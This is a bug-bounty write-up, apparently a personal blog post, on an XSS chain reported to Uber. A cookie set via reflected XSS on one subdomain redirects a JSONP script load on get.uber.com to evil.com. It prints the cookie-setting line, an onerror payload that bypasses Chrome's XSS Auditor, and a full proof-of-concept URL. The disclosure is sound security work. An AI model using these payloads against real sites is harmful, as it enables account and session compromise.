 ```yaml
---
layout: post
title: Uber XSS via Cookie
categories: articles
---
```


<h1 align="center">{{ page.title }}</h1>
<p align="right" class="date">{{ page.date | date_to_string }} - zhchbin</p>

&nbsp;&nbsp;&nbsp;This write up is about part of my latest XSS report to Uber@hackerone. Sorry for my poor English first of all, I will try my best to explain this XSS problem throughly.

## JSONP Request

&nbsp;&nbsp;&nbsp;Several months ago, when enjoying my Spring Festival Holiday at home, I decided to do something interesting, so I started hunting for a bug. I like searching in the chrome dev tools. This time my lucky word was jsonp, and my target domain was `https://get.uber.com`. Let’s look at what I had found at that time.

```
idrCall: function() {
    var a, b;
    return this.idrCallPending ? void 0 : (this.log("making idr call"),
    a = this.rfiServer ? this.rfiServer : "a.rfihub.com",
    b = this.getProtocol() + "//" + a + "/idr.js",
    this.jsonpGet(b, {}, this.idrCallback, "cmZpSWRJbkNhY2hl"),
    this.idrCallPending = !0)
},
```

<img src="https://wx1.sinaimg.cn/mw690/9c5c5d93ly1fxqe8cbagsj21d00r0gsw.jpg">

&nbsp;&nbsp;&nbsp;Nothing suspicious? Not! When came cross these lines of code, I was thinking about whether the value of `this.rfiServer` could be controlled by me. If yes, we can force the browser to load arbitrary javascript file. To understand this, you should know the essence of JSONP. The next step was searching everything about `rfiServer`.

<img src="https://wx3.sinaimg.cn/mw690/9c5c5d93ly1fxqe84lvb3j20tm0f042c.jpg">

After reading through these lines of code:

```
a = this.readCookie("_rfiServer"),
null != a && this.setRfiServer(a),
```

&nbsp;&nbsp;&nbsp;We could get the information that the initial value of `this.rfiServer` was set by using value of cookie `_rfiServer` if exists. Now the problem became how we can set cookie of Uber sites? But how? Here was the options in my mind at that time:

* HTTP Header CRLF Injection at any subdomain of uber.com
* XSS at any subdomain of uber.com

What? We need to find a bug to trigger another bug. And why any subdomain of uber.com?

## The Feature of Cookie

&nbsp;&nbsp;&nbsp;Any subdomain of uber.com can set cookie with domain `.uber.com` to be used across subdomains. For instance, we can set cookie in `xxx.uber.com` using following code, then `get.uber.com` will use the cookie value.

```
document.cookie = '_rfiServer=evil.com;domain=.uber.com;expires=Sat, 27 Jan 2018 01:43:57 GMT;path=/'
```

<img src="https://wx1.sinaimg.cn/mw690/9c5c5d93ly1fxqe87abluj20yt0u0qel.jpg">

## XSS of .uber.com which is Out of Scope

I did really find out one reflected XSS in one of Uber’s subdomain using search engine. Let’s call the domain `<redacted>.uber.com` for demo.

<img src="https://wx4.sinaimg.cn/mw690/9c5c5d93ly1fxqe89pzq4j21dw0fy79z.jpg">

1. `"` is reflected and not encoded. We can inject any attribution into `input` tag.
2. `type="text"` is after the injection point. So we can inject `type="image" src="1" onerror="alert(1)"`. Note that when there is two types, the second one will be ignored.
3. `>` is removed!!! This can be used to bypass Chrome XSS Auditor. How? `o>nerror.`

## Summary

1. Use reflected XSS of `<redacted>.uber.com` to set the value of `_rfiServer `cookie to `evil.com`
2. Visit `get.uber.com`, JSONP request to `https://evil.com/idr.js`, XSS of `get.uber.com` is done.
3. The final PoC

```
https://<redacted>.uber.com/<redacted>?
email=aaa"%20type%3d"image"%20src%3d1%20o>nerror%3d"eval(decodeURIComponent(location.hash.substr(1)))
#document.cookie='_rfiServer=evil.com;domain=.uber.com;expires=Sat, 27 Jan 2999 01:43:57 GMT;path=/';location.href="https://get.uber.com";
```

Thanks for Uber. Reward: 5k

